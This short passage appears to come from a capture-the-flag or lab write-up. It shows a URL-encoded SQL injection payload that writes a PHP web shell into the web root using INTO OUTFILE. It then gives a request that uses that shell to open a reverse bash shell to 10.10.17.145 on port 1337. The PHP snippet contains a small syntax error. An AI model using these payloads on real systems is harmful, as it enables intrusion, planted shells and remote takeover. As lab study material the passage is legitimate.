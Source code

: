 ![](./IMG/54.png)

> Payload 2:
```
100%20UNION%20SELECT%201,"<?php echo system($_GET['test')); ?>",3,4,5,6,7%20INTO%OUTFILE%20'/var/www/html/shell2.php';--%20-
```

![](./IMG/55.png)

> The above 2 payload all can work.
> Here is the step to execute the shell

```
/shell.php?test=bash+%2dc+'bash+%2di+%3e%26+/dev/tcp/10.10.17.145/1337+0%3e%261'
```
